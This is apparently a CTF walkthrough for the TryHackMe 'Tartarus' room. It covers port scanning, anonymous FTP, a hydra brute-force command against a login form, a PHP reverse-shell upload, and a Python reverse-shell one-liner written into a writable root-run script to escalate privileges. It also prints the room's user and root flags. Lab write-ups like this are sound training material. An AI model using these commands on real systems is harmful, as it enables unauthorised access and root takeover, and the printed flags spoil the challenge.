 # Tartarus

Room: Tartarus

Link: https://tryhackme.com/room/tartaraus

TARGET IP: 10.10.13.146

### SCANNING

  Nmap scan results:
    
    21/tcp open  ftp     vsftpd 3.0.3
    22/tcp open  ssh     OpenSSH 7.2p2 
    80/tcp open  http    Apache httpd 2.4.18

### ENUMERATION

 ftp anonymous login is allowed and after logging in we go to ... and then again ... directory
 <img src="screenshots/ftplogin.png">
  
  
  we get /sUp3r-s3cr3t directory 

 
 Checking the robots.txt file(a random guess) 
  
  <img src="screenshots/admin.png">
 
Entering into /admin-dir

  <img src="screenshots/admindir.png">
  
  Downloading the files using :
  
    wget http://10.10.13.146/admin-dir/credentials.txt
    wget http://10.10.13.146/admin-dir/userid
  
  Now entering into the super secret directory on the web server we see a login page.
  
  <img src="screenshots/login.png">
  
 Since, we have the userid and credentials.txt file. We can try and bruteforce the login page via hydra.
   
    hydra -L userid -P credentials.txt 10.10.127.236 http-post-form "/sUp3r-s3cr3t/authenticate.php:username=^USER^&password=^PASS^:Incorrect"

   <img src="screenshots/hydra.png">

    After logging in we get into home.php where we can upload files. Uploading the script for reverse shell here. And starting the listener
    on the machine.

     <img src="screenshots/upload.png">
     
  Uploading the reverse shell php script on the page. 
  
    Download the script from here:http://pentestmonkey.net/tools/php-reverse-shell/php-reverse-shell-1.0.tar.gz

we need to find the uploads directory to run our script
Now we run the directory scan 
 
 So we find the images directory with dirb and here is the upload folder open it and run the script.
 Now we got our reverse shell.

  Going to home/d4rckh.  
  We get the user flag! 0f7dbb2243e692e3ad222bc4eff8521f
 
 ### PrivEsc
 Now let's hunt for the root flag. Looking at the permissions of files cleanup.py we find it has write permissions too.
 Lets modify it for privileged reverse shell
     
    printf 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("Your THM IP",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);' > cleanup.py

    Also setup a listener port nc -lvnp 5555
 
 
 And finally we have our root shell  
  
  <img src="screenshots/rootshell.png">

    Root flag! 
    7e055812184a5fa5109d5db5c7eda7cd

    
